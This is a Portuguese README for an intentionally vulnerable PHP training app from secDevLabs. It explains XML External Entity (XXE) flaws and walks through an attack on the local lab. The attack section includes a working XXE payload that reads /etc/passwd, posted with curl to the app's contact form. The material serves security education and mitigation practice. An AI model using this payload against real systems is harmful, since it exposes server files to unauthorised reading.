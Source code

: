 # ViniJR Blog

<p align="center">
    <img src="images/blog-fe.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Este é um aplicativo web PHP simples que contém um exemplo de uma vulnerabilidade de configuração incorreta de segurança (XXE) e o objetivo principal deste aplicativo é descrever como um usuário mal-intencionado pode explorá-lo. 

## Index

- [ViniJR Blog](#vinijr-blog)
  - [Index](#index)
  - [O que é XXE?](#o-que-é-xxe)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app ⚽️](#conheça-o-app-️)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [👀](#)
      - [Campo de entrada não tratado permite que um invasor recupere informações confidenciais](#campo-de-entrada-não-tratado-permite-que-um-invasor-recupere-informações-confidenciais)
    - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)


## O que é XXE?

Muitos processadores XML mais antigos ou mal configurados avaliam referências de entidades externas em documentos XML. Entidades externas podem ser usadas para divulgar arquivos internos usando o manipulador de URI de arquivo, compartilhamentos de arquivos internos, verificação de porta interna, execução remota de código e ataques de negação de serviço. 

O principal objetivo deste aplicativo é discutir como as vulnerabilidades **XXE** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a5/vinijr-blog
```

```sh
make install
```

Depois é só visitar [localhost:10004][app] ! 😆

## Conheça o app ⚽️

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Tente enviar uma mensagem ao ViniJR.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### Campo de entrada não tratado permite que um invasor recupere informações confidenciais

Após analisar as entradas do aplicativo, é possível identificar que a seção "ENTRE EM CONTATO" permite que os usuários enviem mensagens para o servidor, conforme mostra a figura a seguir: 

<img src="images/attack-1.png" align="center"/>

Usar o proxy [Burp Suite](https://portswigger.net/burp) para interceptar esta solicitação (POST para contact.php) revela que a mensagem está sendo construída usando um XML (se você precisar de ajuda para configurar seu proxy, você deve verifique este [guia](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)): 

<img src="images/attack-2.png" align="center"/>

Para replicar este POST usando [curl](https://curl.haxx.se/), crie o seguinte arquivo `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E depois rode

```sh
curl -d @payload.xml localhost:10004/contact.php ; echo
```

Verificando o código fonte do [arquivo](../vinijr-blog/app/contact.php), é possível ver como esse XML é carregado no lado do servidor:

<img src="images/attack-3.png" align="center"/>

### 🔥

Como nenhuma validação está sendo usada para evitar que [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) sejam enviados para o arquivo PHP, um invasor pode criar o seguinte `evilxml.xml` para executar um XXE :

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E, como mostra a imagem a seguir, é possível perceber que o ataque é bem-sucedido e as informações confidenciais são recuperadas do servidor que hospeda o aplicativo vulnerável:

```sh
curl -d @evilxml.xml localhost:10004/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Extrair dados do servidor através do método mostrado acima.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10004
[secdevlabs]: https://github.com/globocom/secDevLabs
